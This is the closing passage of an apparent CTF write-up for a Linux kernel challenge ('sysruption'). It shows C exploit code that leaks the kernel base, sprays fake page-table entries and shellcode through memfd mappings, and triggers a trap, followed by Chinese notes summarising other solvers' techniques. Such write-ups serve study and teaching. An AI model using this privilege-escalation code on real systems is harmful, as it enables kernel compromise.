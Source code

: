 ```c
        "out dx, al;"
        "shr rax, 8;"
        "dec rcx;"
        "cmp rcx, 0x0;"
        "jne a;"
        "add rdi, 0x8;"
        "cmp rdi, 70000000;"
        "jne b;"
        "c: jmp c;"
        ".att_syntax;");
}

int main()
{
    setvbuf(stdout, 0, 2, 0);
    struct sigaction action = {};
    kaddr = leak_syscall_entry() - 0xc00000;
    printf("%p\n", (void *)kaddr);
    page_fault = kaddr + 0xa00b50;
    page[(page_fault >> (12 + 9)) & 0x1ff] = 0x0101120067UL;
    page[(page_fault >> (12)) & 0x1ff] = 0x01011201e3UL;
    memcpy(&page[0xb50 / 8], shellcode, 0x100);

    int mfd = memfd_create("x", 0);
    fallocate(mfd, 0, 0, 0x30000 * 0x1000);
    for (int i = 0; i < 0x30000; i++) {
        mmap((void *)0x1234000, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED, mfd, i * 0x1000);
        memcpy((void *)0x1234000, page, 0x1000);
        munmap((void *)0x1234000, 0x1000);
    }

    sigemptyset(&action.sa_mask);
    action.sa_sigaction = handler_trap;
    action.sa_flags |= SA_SIGINFO;
    sigaction(SIGTRAP, &action, NULL);
    asm("int3");
    return 0;
}
```



### Other Writeups

- [First blood](https://zolutal.github.io/corctf-sysruption/)
  1. signal 控 register 的方式改成用 ptrace
  2. 用 bypass KASLR 的方式 leak PHYS mapping
  3. gsbase 能在 user space 被 instruction `wrgsbase` 設置，讓 `asm_exc_general_protection()` 能順利執行
  4. 把 rsp 設為目標的 address，並且透過控制其他 registers，在 exception handler `push` 時蓋寫任意值
  5. 修一些會讓 kernel 壞掉的部分
- [出題者](https://www.willsroot.io/2023/08/sysruption.html) - 大部分作法與第一篇文章相似
  1. 蓋寫 `tcp_prot` 來做 ROP